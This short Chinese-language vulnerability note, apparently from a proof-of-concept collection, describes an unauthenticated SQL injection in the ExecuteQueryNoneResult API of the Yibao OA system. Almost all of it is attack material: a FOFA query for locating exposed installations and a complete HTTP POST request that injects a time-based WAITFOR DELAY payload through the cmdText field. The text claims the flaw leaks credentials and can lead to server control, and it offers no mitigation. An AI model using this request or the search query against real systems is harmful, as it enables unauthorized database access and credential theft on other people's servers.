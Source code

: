 # 易宝OA-ExecuteQueryNoneResult接口处存在SQL注入漏洞

易宝OA ExecuteQueryNoneResult接口处存在SQL注入漏洞，未经身份认证的攻击者可以通过此漏洞获取数据库敏感信息，用户名密码等凭据，进一步利用可获取服务器权限。

## FOFA

```javascript
product="顶讯科技-易宝OA系统"
```

## poc

```javascript
POST /api/system/ExecuteQueryNoneResult HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
 
token=zxh&cmdText=;WAITFOR DELAY '0:0:5'--
```

![image-20241025142137455](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251421525.png)
